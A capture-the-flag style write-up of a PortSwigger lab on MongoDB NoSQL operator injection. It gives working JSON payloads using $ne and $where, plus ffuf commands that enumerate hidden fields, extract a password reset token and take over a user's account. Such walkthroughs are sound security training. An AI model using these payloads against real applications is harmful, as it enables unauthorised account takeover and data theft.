

# Exploiting NoSQL operator injection to extract unknown fields

**Lab Url**: [https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)


## Analysis

As usual, the initial step is to understand how the vulnerable application works and gather information about the target system. The application has a My Account page that redirects to log in if a user is not logged in. It also has a forgot password page.

The login page sends the username and password in JSON format to the application server. Notice that appending the apostrophe at the last of the username value does not generate a different response.

```json
{"username":"carlos'","password": "password"}
```

However, if we put Mongodb operator like `$where` or `$ne` we can observe that the application generates subtly different responses.

Like, the below payload returns an `Invalid username or password` in response:

```json
{"username":"carlos","password":"password"}
```

While this payload returns `Account locked: please reset your password` in response:

```json
{"username":"carlos","password":{"$ne": ""}}
```


Now, let's see if the javascript expression is being evaluated, we have to put the javascript expression inside the `$where` clause to have any effect.

```json
{"username":"carlos","password":{"$ne": ""}, "$where":"1"}
```


```json
{"username":"carlos","password":{"$ne": ""}, "$where":"0"}
```


The first payload returned `Account locked: please reset your password` while the second one returned `Invalid username or password`. This indicates that javascript expression inside `$where` clause is being evaluated.

**Now, let's try to extract unkown field names:**

We know that the first field in MongoDB is usually called `_id`. Let's check that.

```json
{"username":"carlos","password":{ "$ne": "" }, "$where": "Object.keys(this)[0] == '_id'"}
```


Hmm, the application returned `Account locked: please reset your password` as we were expecting.

There is another way to do this for extracting unknown fields. Using the below payload we can match the character one at a time to extract an unknown field.

```json
{"username":"carlos","password":{ "$ne": "" }, "$where": "Object.keys(this)[0].match(/^[_id]/g)"}
```

## Extracting field name

We already know that the first field is _id. After some fuzzing, we found that the second, third, and fourth fields are username, password, and email, respectively.

We also found the fifth unknown field, which in this case is a `pwResetTkn`.

**We used `ffuf` with the below payload to extract unknown fields.**

```bash
wget https://gist.githubusercontent.com/blueorionn/624bac9a6a69d96244c33ddbe8739e7b/raw/a073b656fe66203b172202fa1c6b36987761dc3e/alpha-numeric-characters.txt
```

```bash
ffuf -X POST -u https://YOUR-LAB-ID.web-security-academy.net/login -w alpha-numeric-characters.txt -H "Content-Type: application/json" -d '{"username":"carlos","password":{ "$ne": "" }, "$where": "Object.keys(this)[4].match(/^FUZZ/g)"}'
```

## Unknown Field Verification

Now that we know the unknown field name let's verify it. The login page contained a `/forgot-password` link click on that to view the response.

Request an invalid field in the URL: `/forgot-password?foo=invalid`. Notice that the response is identical to the original response.

Now request your exfiltrated name of the password reset token field in the URL: `/forgot-password?YOURTOKENNAME=invalid`. Notice that you receive an Invalid token error message. This confirms that you have the correct token name and endpoint.

## Finding value of unknown field

```bash
ffuf -X POST -u https://YOUR-LAB-ID.web-security-academy.net/login -w wordlist/alpha_numeric.txt -H "Content-Type: application/json" -d '{"username":"carlos","password":{ "$ne": "" }, "$where": "this.YOURTOKENNAME.match(/^FUZZ/g)"}'
```

After finding the value of the `reset token`, submit the value of the password reset token in the URL of the `/forgot-password` request: GET `/forgot-password?YOURTOKENNAME=TOKENVALUE` and change the password of user carlos, and login in as `carlos` to solve the lab.


